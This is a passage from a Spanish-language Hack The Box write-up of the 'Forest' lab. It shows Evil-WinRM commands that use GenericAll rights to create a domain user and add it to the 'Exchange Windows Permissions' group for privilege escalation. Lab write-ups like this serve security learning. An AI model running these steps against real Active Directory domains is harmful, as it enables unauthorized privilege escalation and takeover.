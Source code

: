 ![](/assets/images/HTB/Forest-HackTheBox/BloodHound2.webp)

> A través de los permisos Generic All podemos añadir usuarios a un grupo o cambiar la contraseña de usuarios. 

Busco información sobre los permisos Generic All para proceder a crear un nuevo usuario y meterlo en el grupo que queremos.

> Creamos un usuario y lo añadimos al dominio.

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user elc4br4 elc4br4 /add /domain 
The command completed successfully.
```

> Añadimos el nuevo usuario al grupo EXCHANGE WINDOWS PERMISSIONS

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add elc4br4
The command completed successfully.
```

> Lo comprobamos:

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
elc4br4
The command completed successfully.
```
> Ya estamos dentro del grupo
